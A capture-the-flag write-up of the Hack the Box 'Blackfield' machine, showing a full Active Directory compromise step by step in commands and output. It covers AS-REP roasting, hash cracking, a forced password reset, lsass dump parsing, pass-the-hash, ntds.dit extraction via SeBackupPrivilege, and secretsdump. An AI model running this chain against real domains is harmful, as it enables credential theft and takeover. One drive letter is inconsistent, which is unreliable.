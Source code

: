 ```yaml
---
layout: post
title: Hack the Box - Blackfield
author: Kolja
categories: [HtB]
tags: [ad]
---
```


## Enumeration
We can enumerate smb with the guest user:
```
smbmap -H 10.10.10.192 -u "guest" -p ""
[+] IP: 10.10.10.192:445        Name: 10.10.10.192                                      
        Disk                                                    Permissions Comment
        ----                                                    ----------- -------
        ADMIN$                                                  NO ACCESS   Remote Admin
        C$                                                      NO ACCESS   Default share
        forensic                                                NO ACCESS   Forensic / Audit share.
        IPC$                                                    READ ONLY   Remote IPC
        NETLOGON                                                NO ACCESS   Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS   Logon server share 
       
```

## Foothold
From the profiles share we get directories for the existing users. We can use this to create a user list and then try to do AS-REP Roasting:
```
impacket-GetNPUsers  -dc-ip 10.10.10.192 blackfield.local/ -usersfile  userlist.txt -format john -outputfile hashes -no-pass
```
We get one hash and can try to crack it using john:
```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$support@BLACKFIELD.LOCAL)     
1g 0:00:00:10 DONE (2022-05-24 07:05) 0.09165g/s 1313Kp/s 1313Kc/s 1313KC/s #1WIF3Y..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

So we have credentials now: `support:#00^BlackKnight`

## Privilege Escalation
Now we have credentials we can enumerate the active directory:
```
bloodhound-python -c All -u support@blackfield.local -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -dc DC01.blackfield.local
```
Our user can change the password of another user:
![loader_work_flow](/assets/htb_blackfield_attack_path.png)


This can be done from Linux using `rpcclient`:
```
rpcclient -U blackfield/support 10.10.10.192
Password for [BLACKFIELD\support]:
rpcclient $> setuserinfo2 AUDIT2020 23 Passwort123!
rpcclient $> 
```

This user had no interesting bloodhound edges, but it had read access to the forensic share:
```
smbmap -H 10.10.10.192 -u "AUDIT2020" -p 'Passwort123!'   
[+] IP: 10.10.10.192:445        Name: blackfield.local                                  
        Disk                                                    Permissions Comment
        ----                                                    ----------- -------
        ADMIN$                                                  NO ACCESS   Remote Admin
        C$                                                      NO ACCESS   Default share
        forensic                                                READ ONLY   Forensic / Audit share.
        IPC$                                                    READ ONLY   Remote IPC
        NETLOGON                                                READ ONLY   Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY   Logon server share 
```

There is a lsass.zip file on the share, which contains a lsass.DMP file.
```
pypykatz lsa minidump lsass.DMP 
```

There is a NTLM hash for the `svc_backup` user in the dump: `9658d1d1dcd9250115e2205d9f48400d`

We can use `evil-winrm` to log in with this user:
```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

Here we execute `PrivescCheck.ps1` and see that we have the `SeBackupPrivilege`. We can exploit this as described [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

First, we create a file `raj.dsh`:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```
After using `unix2dos` on the file we upload this file to the host and then use it:
```
diskshadow /s raj.dsh
robocopy /b x:\windows\ntds . ntds.dit
```
We also need the `system` registry value:
```
reg save hklm\system c:\Temp\system
```

We can then use secretsdump to extract the hashes:
```
impacket-secretsdump -ntds ntds.dit -system system local
```

Now we can log in using the admin account:
```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```
